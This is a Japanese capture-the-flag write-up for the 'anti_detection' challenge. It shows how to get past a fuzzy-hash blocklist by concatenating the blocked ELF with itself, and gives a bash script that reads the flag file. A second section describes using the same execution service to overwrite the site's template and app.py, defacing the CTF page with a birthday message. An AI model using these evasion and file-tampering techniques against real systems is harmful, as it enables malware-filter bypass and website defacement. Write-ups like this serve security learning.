



# anti_detection:misc:484pts
Flagを取得するための実行ファイルとアップローダを用意しました。 ただし、この実行ファイルをそのままアップロードすると、防御システムに類似ファイルと検知されて実行されない仕組みになっています。  
そこで、検知システムをすり抜ける実行ファイルを作ってFlagを取得してください！  

[http://34.82.208.2:31516/](http://34.82.208.2:31516/)  

[detected](detected)  

Hint  
・この検知システムではFuzzyHashと呼ばれるハッシュ値の類似度を利用しています ・GhidraやIDAで処理の流れを追ってみましょう ・同等の処理を行うファイルをお好みの言語で実装してコンパイルし、実行ファイルを作成してみましょう  

# Solution
URLとelfが渡される。  
アクセスするとelfが実行可能なサイトなようで、問題文より配布されたものを実行すればよいようだ。  
  
ただし、そのまま渡されたelfをアップロードすると`this file is similar to the file in blacklisted`とブロックされる。  
何かしらのルールでelfを判定しているようだ。  
パックや難読化することも考えられるが、ひとまず以下のようにelfをつなげてみる。  
```bash
$ cat detected detected > hack
$ sha256sum hack
0c9910efc60c583e83a4c83f923ee5c91d64b91cef5d2f383ecfb6356810a72a  hack
```
  
アップロードするとflagが表示された。  
別解としてelfを解析し、出力形式を合わせた以下のようなbashでもflagを読みだせる(出力形式が異なると`invalid output`となる)。  
```bash
#!/bin/bash
echo -n "flag: `head -1 flag.txt`"
```

## taskctf{p0werfu1_fuzzy_h4sh}

---

## 誕生日のお祝い
毎年恒例であるが、何とかしてtaskさんの誕生日を祝うことを目的とする。  
本問題を攻略中、別解のbashでflag.txtを書き換えたところ通ってしまった(即修正して報告)。  
つまりファイルを書き換えることができると予測できる。  
`http://34.82.208.2:31516/404`などを見てやると、他の問題の中でflaskを用いたものと共通のメッセージであることがわかる。  
つまり、テンプレート(`templates/index.html`)を書き換えて、`app.py`を変更してやることで、再度テンプレートの読み込みが発生しサイト自体を改竄できる。  
以下のようなhappybirthday.bashで行う。  
```bash
#!/bin/bash
echo '<br><font size="7"><font color="#0000ff">t</font><font color="#0f00ef">a</font><font color="#1f00df">s</font><font color="#2f00cf">k</font><font color="#3f00bf">さ</font><font color="#4f00af">ん</font> <font color="#6f008f">誕</font><font color="#7f007f">生</font><font color="#8f006f">日</font><font color="#9f005f">お</font><font color="#af004f">め</font><font color="#bf003f">で</font><font color="#cf002f">と</font><font color="#df001f">う</font><font color="#ef000f">！</font><font color="#ff0000">🎂</font></font><br>satokiより' >> ./templates/index.html
echo -e "\n#satoki" >> ./app.py
echo -n "flag: `head -1 flag.txt`"
```
これをアップロードすると、以下のようになった。  
  
**taskさん 誕生日おめでとう！🎂**(実際にはもう少し先だが)  